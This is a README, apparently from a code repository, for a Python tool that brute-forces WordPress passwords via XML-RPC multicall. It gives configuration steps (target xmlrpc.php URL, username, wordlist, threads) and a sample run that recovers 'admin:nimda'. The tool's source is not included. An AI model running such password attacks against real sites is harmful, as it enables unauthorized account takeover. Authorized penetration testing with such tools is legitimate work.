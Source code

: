 # Wordpress XML-RPC bruteforcer

## Usage
- Edit `main.py`:
	-	`WORDPRESS_SERVER` to point to the `xmlrpc.php` file on the remote side
	- `USERNAME` for the username password of which you want to discover
	- `WORDLIST` to point to the dictionary of your choice
	- (optional) `CHUNK_SIZE` to change the number of multicall methods per single network request
	- (optional) `THREADS_NUM` to change the number of threads
- Run `python3 main.py`

## Sample run
```
$ python3 main.py
[+] Started at Sun Nov  8 14:30:55 2015
[i] Thread-2 Total words:  256 Total calls:  1
[i] Thread-3 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  256 Total calls:  1
[i] Thread-1 Total words:  512 Total calls:  2
[i] Thread-2 Total words:  512 Total calls:  2
[i] Thread-3 Total words:  512 Total calls:  2
[i] Thread-1 Total words:  768 Total calls:  3
[i] Thread-2 Total words:  768 Total calls:  3
[i] Thread-3 Total words:  768 Total calls:  3
[i] Thread-1 Total words:  1024 Total calls:  4
[i] Thread-2 Total words:  1024 Total calls:  4
[i] Thread-3 Total words:  1024 Total calls:  4
[i] Thread-1 Total words:  1280 Total calls:  5
[i] Thread-2 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1280 Total calls:  5
[i] Thread-3 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1536 Total calls:  6
[i] Thread-1 Total words:  1536 Total calls:  6
[i] Thread-2 Total words:  1792 Total calls:  7
[i] Thread-3 Total words:  1792 Total calls:  7
[i] Thread-1 Total words:  1792 Total calls:  7
[i] Thread-2 Total words:  2048 Total calls:  8
[i] Thread-1 Total words:  2048 Total calls:  8
[i] Thread-3 Total words:  2048 Total calls:  8
[i] Thread-2 Total words:  2304 Total calls:  9
[i] Thread-1 Total words:  2304 Total calls:  9
[i] Thread-3 Total words:  2304 Total calls:  9
[i] Thread-2 Total words:  2560 Total calls:  10
[i] Thread-1 Total words:  2560 Total calls:  10
[i] Thread-3 Total words:  2560 Total calls:  10
[i] Thread-2 Total words:  2816 Total calls:  11
[i] Thread-1 Total words:  2816 Total calls:  11
[i] Thread-3 Total words:  2816 Total calls:  11
[i] Thread-2 Total words:  3072 Total calls:  12
[i] Thread-1 Total words:  3072 Total calls:  12
[i] Thread-3 Total words:  3072 Total calls:  12
[i] Thread-2 Total words:  3328 Total calls:  13
[i] Thread-1 Total words:  3328 Total calls:  13
[!] Found a match: "admin:nimda"
[+] Finished at Sun Nov  8 14:32:16 2015
Password found. All done. Bye
```
